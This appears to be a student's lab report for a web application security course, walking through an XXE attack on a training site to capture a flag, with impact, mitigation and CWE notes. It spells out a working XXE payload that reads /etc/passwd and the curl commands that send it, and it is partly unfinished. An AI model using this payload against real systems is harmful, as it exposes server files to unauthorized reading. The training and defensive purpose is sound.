 # Web Application Security

**Student number:** AB0197  
**Name:** Veeti Hakala    
**Group:** TIC21S  
**Time management:** Approximately 10 hours


## Week 05  

### Security Misconfigurations:

#### Old wasdat - XML External Entity

**Title:** Perform XXE attack successfully using old wasdat's custom-search functionality in old Wasdat and achieve `flag` Target is custom-search functionality: `http://wasdat.fi:8080/api/custom-search`.

**Description:**  

**Steps to produce:**  

1. We had be given `oldwasdat.example.xml` file beforehand. Content of the xml file was following:
    ```xml 
    <search>searchterm</search>
    ```  

2. I created similiar file with name: `malicious.xml`.  
    2. Let's try to use `Curl` with `POST` method and use this `malicious.xml` file in the command.
    ```sh
    curl -X POST http://wasdat.fi:8080/api/articles/custom-search -H "Content-Type: text/xml" --data "@malicious.xml"
    ```

3. As response we get the following: 

    3. <img src="../images/was05-1.png" width="300" />  

        3. This provides us valuable information: As we can see that we got succes response and also that we have indeed developer defined `Element="search"`.

4. Next step is to modify the `malicious.xml` payload to get something more interesting response.   

    * XML Declaration: ```<?xml version="1.0" encoding="UTF-8"?>```  specifying that this is an XML document with version "1.0" and it uses UTF-8 character encoding.
    
    * DOCTYPE Declaration: ```<!DOCTYPE search [``` The DOCTYPE defines the structure of the XML document, allowing the XML parser to validate the XML against this structure. Inside the square brackets ([...]) are the internal subset of the DOCTYPE, which can be used to define custom entities.  
    
    * ELEMENT Declaration: ```<!ELEMENT search ANY >``` defines an XML element named search. The ANY keyword means that the search element can contain any content, including text or other XML elements.  

    * ENTITY Declaration: ```<!ENTITY xxe SYSTEM "file:///etc/passwd" >```  Defines an XML entity named `xxe`. The `SYSTEM` keyword tells the XML parser that the value for this entity should be fetched from an external system location, in this case, the Unix `/etc/passwd` file. When the XML parser encounters the ```&xxe;``` entity, it will try to read the contents of the /etc/passwd file and include it in the parsed XML data.

    * XML Content: ```<search>&xxe;</search>``` contains a single search element. Inside the search element, the `&xxe;` entity is referenced. When the XML parser processes this document, it will replace the `&xxe;` entity with the content of the `/etc/passwd` file.

    <img src="../images/was05-2.png" width="300" />

5. Now when the XML file payload is crafted we can continue executing the actual XXE attack: 

     ```sh
    curl -X POST http://wasdat.fi:8080/api/articles/custom-search -H "Content-Type: text/xml" --data "@malicious.xml"
    ```

6. Success, we received the contents of the `/etc/passwd` and achieved the flag: `WasFlag5_1{NicelyDone_NowGoAndLaunchRockets}`.

<img src="../images/was05-3.png" width="300" />  

---


 




* Impact estimation: **Estimate Severity**

    

* Mitigation:

    

* Related OWASP CWE:

    

---


#### Main target - Coupon codes stored in plain text

**Title:** 

**Description:** 

**Steps to produce:**  

1. 
    1. <img src="../images/was21.png" width="300" />

2. We found the `robots.txt` config file.



* Impact estimation:  **Critical**  

    * Information Disclosure: The exploit allows unauthorized reading of system files, potentially exposing sensitive system information or user data.  

    * Denial of Service: XXE can be used to induce a denial of service by tying up server resources when trying to fetch non-existent or recursive entities.  

    * Potential for Further Exploits: The disclosed information could provide an attacker with details necessary for further attacks on the system.  

    * Data Integrity: Although not demonstrated, XXE can be exploited in some scenarios to write to system files or make server-side requests.

    
    

* Mitigation:  

    * Disable External Entities: Configure the XML parser to prohibit the resolution of external entities.
        * See: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html

    * Use Less Complex Data Formats: Consider using data formats that are less complex than XML, such as JSON, when possible.  

    
    * Implement Web Application Firewalls (WAFs): A WAF can help filter out malicious XML content.  

    
    * Update and Patch: Ensure that all software components, libraries, and dependencies related to XML parsing are regularly updated and patched.  

    * Limit Parser Privileges: If XML parsing is necessary, run the parser with the least privilege possible to reduce the potential impact of a successful attack.  

    * Input Validation: Implement positive ("whitelisting") server-side input validation, filtering, or sanitization to prevent hostile data within XML documents, headers, or nodes.
    

* Related OWASP CWE:  

    * CWE-611: Improper Restriction of XML External Entity Reference ('XXE'): This is the primary weakness that describes the vulnerability exploited in the XXE attack.  

    * CWE-827: Improper Control of Document Type Definition: This is related to misconfigurations that can lead to XXE attacks.

    * CWE-776: Improper Restriction of Recursive Entity References in DTDs ('XML Bomb'): This can cause a Denial of Service (DoS) when exploited.
 


---



